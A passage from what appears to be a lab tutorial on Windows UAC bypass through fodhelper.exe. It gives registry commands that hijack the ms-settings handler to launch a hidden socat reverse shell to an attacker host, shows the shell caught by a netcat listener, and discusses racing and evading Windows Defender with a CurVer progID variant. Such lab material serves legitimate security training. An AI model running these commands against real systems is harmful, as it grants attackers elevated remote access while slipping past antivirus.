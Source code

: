 And modify the exploit to run fodhelper.exe immediately after setting the registry value. If the command runs quick enough, it will just work (be sure to replace your IP address where needed):

Command Prompt

```shell-session
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

Depending on your luck, fodhelper might execute before the AV kicks in, giving you back a reverse shell. If for some reason it doesn't work for you, keep in mind that this method is unreliable as it depends on a race between the AV and your payload executing first. Should the reverse shell not work, just go ahead and continue with the rest of the room, as a more consistent way to bypass Windows Defender will be given below.  

Attacker's Shell

```shell-session
user@kali$ nc -lvp 4444      
Listening on 0.0.0.0 4444
Connection received on 10.10.183.127 49813
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

Windows Defender still alerts about the bypass, however. The problem with our current exploit is that it gives little room for variation, as we need to write specific registry keys for it to trigger, making it easy for Windows Defender to detect. But there is still something to be done about it.  

  

### Improving the fodhelper exploit

A variation on the fodhelper exploit was proposed by [@V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses), where different registry keys are used, but the basic principle is the same.

Instead of writing our payload into `HKCU\Software\Classes\ms-settings\Shell\Open\command`, we will use the `CurVer` entry under a progID registry key. This entry is used when you have multiple instances of an application with different versions running on the same system. CurVer allows you to point to the default version of the application to be used by Windows when opening a given file type.

To this end, we will create an entry on the registry for a new progID of our choice (any name will do) and then point the CurVer entry in the ms-settings progID to our newly created progID. This way, when fodhelper tries opening a file using the ms-settings progID, it will notice the CurVer entry pointing to our new progID and check it to see what command to use.
